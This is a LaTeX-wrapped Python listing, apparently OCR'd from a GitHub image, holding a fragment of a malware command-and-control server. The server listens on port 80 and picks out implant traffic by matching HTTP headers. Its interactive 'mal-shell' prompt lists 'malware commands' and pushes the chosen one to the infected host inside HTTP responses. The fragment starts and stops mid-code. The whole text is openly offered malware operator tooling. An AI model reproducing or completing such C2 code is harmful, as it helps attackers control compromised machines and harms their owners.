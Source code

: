 \documentclass[
    a4paper, %
    11pt %
]{article}
\begin{document}
\begin{lstlisting}[language=Python]
    print(s)

# filter - filtraggio basato sugli header delle richieste HTTP
def filter_http_req(req):
    for ln in req.split("\r\n"):
        http_hdr_kvpair = ln.split(":")
        if len(http_hdr_kvpair) > 1:
            key = http_hdr_kvpair[0].strip()
            value = http_hdr_kvpair[1].strip()
            for hdrentry in _FILTER_HTTP_HEADER_INCLUDE:
                if key == hdrentry[0] and value == hdrentry[1]:
                    return req
                
    return None

# util - scrittura sul socket
def issue_remote_cmd(cmd, sock):
    httpres = build_http_res("","")
    if cmd != None:
        httpres = build_http_res(_CMDS[cmd][1][0], _CMDS[cmd][1][1])

    try:
        sock.send(httpres.encode('utf-8'))
    except ConnectionResetError:
        print(" ** remote CLOSED connection")
        pass

# shell - endless loop con 4 comandi
def start_interactive_shell(sock):
    shell_builtin = input("[mal]> ")
    tokens = shell_builtin.split(' ')

    if tokens[0] == 'lscmd':
        print_lscmd()
        return False
    elif tokens[0] == 'ignore':
        return True
    elif tokens[0] == 'empty':
        issue_remote_cmd(None, sock)
        return True
    elif tokens[0] == 'run':
        if len(tokens) < 2:
            print(" mal-shell: starting command run requires at least another arg")
            print(" mal-shell: * run: followed by Cmd (1,2,3,...) listed in lscmd")
            return False

        for cmd in _CMDS:
            if cmd == tokens[1]:
                issue_remote_cmd(cmd, sock)
                return True

        print(f" mal-shell: run - unknown remote command: \"{tokens[1]}\"")
        return False

    print(f" mal-shell: unknown starting command \"{tokens[0]}\"")
    print(" mal-shell: valid starting commands:")
    print(" mal-shell:  * lscmd: list malware commands")
    print(" mal-shell:  * ignore: don't send anything, close conn. immediately")
    print(" mal-shell:  * run: followed by Cmd (1,2,3,...) listed in lscmd")
    return False

if __name__ == '__main__':
    laddr = '0.0.0.0'
    lport = 80

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, socket.IPPROTO_TCP)


\end{lstlisting}
\end{document}
